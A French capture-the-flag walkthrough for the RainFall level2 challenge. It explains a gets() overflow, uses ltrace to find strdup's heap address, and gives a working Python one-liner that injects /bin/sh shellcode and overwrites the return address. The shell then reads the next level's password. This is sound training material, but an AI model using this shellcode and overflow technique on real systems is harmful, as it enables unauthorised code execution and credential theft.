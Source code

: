 Nous remarquons que le programme utilise gets, une fonction vulnérable aux overflow. Nous remarquons aussi qu'il vérifie que l'adresse de retour se situe dans la heap.
Il se trouve qu'il y a la fonction strdup, on peut donc se servir de ltrace afin de savoir où l'adresse de la valeur de retour de strdup.

```bash
level2@RainFall:~$ ltrace ./level2 
__libc_start_main(0x804853f, 1, 0xbffff7f4, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                                                    = 0
gets(0xbffff6fc, 0, 0, 0xb7e5ec73, 0x80482b5)                         = 0xbffff6fc
puts("")                                                              = 1
strdup("")                                                            = 0x0804a008
```
Ensuite, nous insèrons un shellcode à cette adresse `0x0804a008`, puis l'on overflow gets afin de modifier l'adresse de retour du main pour qu'il redirige à l'endroit de notre shellcode.

```bash
level2@RainFall:~$ (python -c 'print "\x99\x6A\x0B\x58\x68\x6E\x2F\x73\x68\x68\x2F\x2F\x62\x69\x89\xE3\xCD\x80" + "a" * 62 + "\x08\xa0\x04\x08"'; cat) | ./level2
�j
  Xhn/shh//bi��̀aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�aaaaaaaaaaa�
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```
